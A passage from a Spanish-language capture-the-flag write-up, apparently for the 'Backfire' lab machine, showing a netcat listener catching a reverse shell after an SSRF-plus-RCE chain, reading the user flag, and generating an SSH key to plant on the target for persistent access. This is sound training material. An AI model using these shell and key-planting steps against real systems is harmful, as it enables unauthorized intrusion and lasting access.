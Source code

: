 Verificamos que hemos logrado explotar la vulnerabilidad de SSRF combinaco con el rce para obtener acceso al equipo. Logramos verificar la flag de **user.txt**.

```bash
❯ nc -nlvp 444
listening on [any] 444 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.11.49] 60062
bash: cannot set terminal process group (2798): Inappropriate ioctl for device
bash: no job control in this shell
ilya@backfire:~/Havoc/payloads/Demon$ whoami
ilya
ilya@backfire:~/Havoc/payloads/Demon$ cat /home/ilya/user.txt
f5448999f2**********************
```

### Uploading our public SSH key to the machine to connect with SSH

La Shell que hemos recibido, por un motivo u otro era bastante inestable y se cerraba al poco tiempo.&#x20;

Por lo tanto, lo que decidimos es subir nuestra clave pública SSH al equipo para conectarnos mediante SSH sin proporcionar credenciales.

En nuestro equipo atacante, generaremos unas nuevas claves SSH.

```bash
❯ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/kali/.ssh/id_ed25519): 
Enter passphrase for "/home/kali/.ssh/id_ed25519" (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/kali/.ssh/id_ed25519
Your public key has been saved in /home/kali/.ssh/id_ed25519.pub
The key fingerprint is:
SHA256:L6LVCWep/EmLWtMMKME0I6CwJD99okkUpUfupYDD6LI kali@kali
The key's randomart image is:
+--[ED25519 256]--+
|*.*oo            |
|BO B             |
|*.O = o          |
|.o O *   .       |
|..+ + o S        |
|.. . . X o       |
|E     B B .      |
|     + * +       |
|    o.. +        |
+----[SHA256]-----+
```

Revisaremos el contenido de nuestra clave SSH pública.

```bash
❯ cat id_ed25519.pub
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINchj1ycZWUZctrUZl/nhPPxygCF1kT7UbFMFfVqiyz0 kali@kali
```
